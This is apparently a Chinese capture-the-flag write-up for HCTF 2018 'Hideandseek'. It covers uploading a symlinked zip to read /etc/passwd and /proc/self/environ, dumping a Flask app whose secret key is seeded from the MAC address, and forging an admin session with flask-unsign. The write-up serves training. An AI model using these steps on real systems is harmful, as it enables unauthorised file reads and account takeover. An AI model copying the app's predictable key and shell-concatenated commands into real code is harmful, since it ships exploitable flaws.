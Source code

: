 # \[HCTF 2018]Hideandseek

## \[HCTF 2018]Hideandseek

## 考点

* Linux下的ln命令
* Python随机数漏洞
* flask session伪造

## wp

提示先登录，随便输账号密码，比如aaaa/aaaa，提示要上传压缩包

![](<../../.gitbook/assets/image (24) (1).png>)

F12看到session是`eyJ1c2VybmFtZSI6ImFhYWEifQ.FVpCHQ.ekVxiCec35C4f6Dm2G2qW-HES7U`

解码是`{'username': 'aaaa'}`

上传一个压缩包，返回了压缩包中的文件内容，那这里使用`ln`软链接可能有任意文件读取，和[\[SWPU2019\]Web3](swpu2019-web3.md)差不多

* `ln -s /etc/passwd test`
* `zip -ry test.zip test`

![](<../../.gitbook/assets/image (28).png>)

读取`/proc/self/cmdline`，`/proc/self/environ`，`/proc/cmdline`，有用的就只有`/proc/self/environ`

{% code title="/proc/self/environ" %}
```
......
UWSGI_INI=/app/uwsgi.ini
PWD=/app
STATIC_PATH=/app/static
......
```
{% endcode %}

再读取`/app/uwsgi.ini`

```
[uwsgi] 
module=main 
callable=app 
logto=/tmp/hard_t0_guess_n9p2i5a6d1s_uwsgi.log
```

读取`/app/main.py`发现是个假的文件，原题的uwsgi.ini文件如下

```
[uwsgi]
module = hard_t0_guess_n9f5a95b5ku9fg.hard_t0_guess_also_df45v48ytj9_main
callable=app
logto = /tmp/hard_t0_guess_n9p2i5a6d1s_uwsgi.log
```

读取`/app/hard_t0_guess_n9f5a95b5ku9fg/hard_t0_guess_also_df45v48ytj9_main.py`

```python
# -*- coding: utf-8 -*-
from flask import Flask,session,render_template,redirect, url_for, escape, request,Response
import uuid
import base64
import random
import flag
from werkzeug.utils import secure_filename
import os
random.seed(uuid.getnode())
app = Flask(__name__)
app.config['SECRET_KEY'] = str(random.random()*100)
app.config['UPLOAD_FOLDER'] = './uploads'
app.config['MAX_CONTENT_LENGTH'] = 100 * 1024
ALLOWED_EXTENSIONS = set(['zip'])

def allowed_file(filename):
    return '.' in filename and \
           filename.rsplit('.', 1)[1].lower() in ALLOWED_EXTENSIONS


@app.route('/', methods=['GET'])
def index():
    error = request.args.get('error', '')
    if(error == '1'):
        session.pop('username', None)
        return render_template('index.html', forbidden=1)

    if 'username' in session:
        return render_template('index.html', user=session['username'], flag=flag.flag)
    else:
        return render_template('index.html')


@app.route('/login', methods=['POST'])
def login():
    username=request.form['username']
    password=request.form['password']
    if request.method == 'POST' and username != '' and password != '':
        if(username == 'admin'):
            return redirect(url_for('index',error=1))
        session['username'] = username
    return redirect(url_for('index'))


@app.route('/logout', methods=['GET'])
def logout():
    session.pop('username', None)
    return redirect(url_for('index'))

@app.route('/upload', methods=['POST'])
def upload_file():
    if 'the_file' not in request.files:
        return redirect(url_for('index'))
    file = request.files['the_file']
    if file.filename == '':
        return redirect(url_for('index'))
    if file and allowed_file(file.filename):
        filename = secure_filename(file.filename)
        file_save_path = os.path.join(app.config['UPLOAD_FOLDER'], filename)
        if(os.path.exists(file_save_path)):
            return 'This file already exists'
        file.save(file_save_path)
    else:
        return 'This file is not a zipfile'


    try:
        extract_path = file_save_path + '_'
        os.system('unzip -n ' + file_save_path + ' -d '+ extract_path)
        read_obj = os.popen('cat ' + extract_path + '/*')
        file = read_obj.read()
        read_obj.close()
        os.system('rm -rf ' + extract_path)
    except Exception as e:
        file = None

    os.remove(file_save_path)
    if(file != None):
        if(file.find(base64.b64decode('aGN0Zg==').decode('utf-8')) != -1):
            return redirect(url_for('index', error=1))
    return Response(file)


if __name__ == '__main__':
    #app.run(debug=True)
    app.run(host='0.0.0.0', debug=True, port=10008)
```

获取flag的条件是session的username为admin

值得注意的是，它使用了`random.seed(uuid.getnode())`去生成随机数种子，然后设置secret\_key为随机数`app.config['SECRET_KEY'] = str(random.random()*100)`

Python中的random是伪随机数，只要种子是一样的，后面产生的随机数也是一样的

uuid.getnode()是返回当前主机网卡MAC地址的十进制形式，Linux中记录MAC地址的文件是`/sys/class/net/eth0/address`或者 `/etc/sysconfig/network-scripts/ifcfg-eth0`

读取`/sys/class/net/eth0/address`，得到`9e:e1:ac:68:a3:d1`

```
>>> s='9e:e1:ac:68:a3:d1'.replace(':','')
>>> s
'9ee1ac68a3d1'
>>> int(s,16)
174692097369041
```

然后重新跑一下随机数，Python2和3都试一下

{% code title="Python3" %}
```
>>> import random
>>> mac=174692097369041
>>> random.seed(mac)
>>> random.random()*100
75.69105245694635
```
{% endcode %}

然后重新生成session

```
flask-unsign --sign --cookie "{'username': 'admin'}" --secret '75.69105245694635'
eyJ1c2VybmFtZSI6ImFkbWluIn0.Yni6fA.z7e5HN3WUPwOIVRa5fyltNYuG_4
```

这里的随机数考点和[\[CISCN2019 华东南赛区\]Web4](ciscn2019-hua-dong-nan-sai-qu-web4.md)一样。

![](<../../.gitbook/assets/image (25).png>)

## 小结

1. [\[CISCN2019 华东南赛区\]Web4](ciscn2019-hua-dong-nan-sai-qu-web4.md)+[\[SWPU2019\]Web3](swpu2019-web3.md)=本题
